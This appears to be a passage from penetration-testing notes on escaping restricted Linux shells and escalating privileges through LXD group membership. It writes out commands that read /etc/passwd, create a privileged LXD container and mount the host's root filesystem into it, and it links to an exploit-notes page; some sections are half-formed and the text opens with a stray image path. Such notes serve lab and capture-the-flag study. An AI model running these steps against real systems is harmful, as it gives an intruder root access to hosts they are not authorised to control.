 ```

For escaping from a restricted shell to use environment variables involves modifying or creating environment variables that the shell uses to execute commands that are not restricted by the shell. For example, if the shell uses an environment variable to specify the directory in which commands are executed, it may be possible to escape from the shell by modifying the value of the environment variable to specify a different directory.

- $PATH
- $SHELL

#### export wriatable env variables

```$ export -p```

## Shell Functions

In some cases, it may be possible to escape from a restricted shell by using shell functions. For this we can define and call shell functions that execute commands not restricted by the shell. Let us say, the shell allows users to define and call shell functions, it may be possible to escape from the shell by defining a shell function that executes a command.


```$ while read line; do echo $line; done < /etc/passwd; echo $line```


[exploitnotes](   https://exploit-notes.hdks.org/exploit/network/protocol/restricted-shell-bypass/  )





# Linux Containers
      



## LXC /LXD group

```$ id```

We can either create our own container and transfer it to the target system or use an existing container. 

start lxd 

```$ lxd init```

Import the local image.

```$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine```

start Privileged container

```$ lxc init alpine r00t -c security.privileged=true```

mount the file system to the container

```$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true```

spawn a shell
```$ lxc start r00t```


```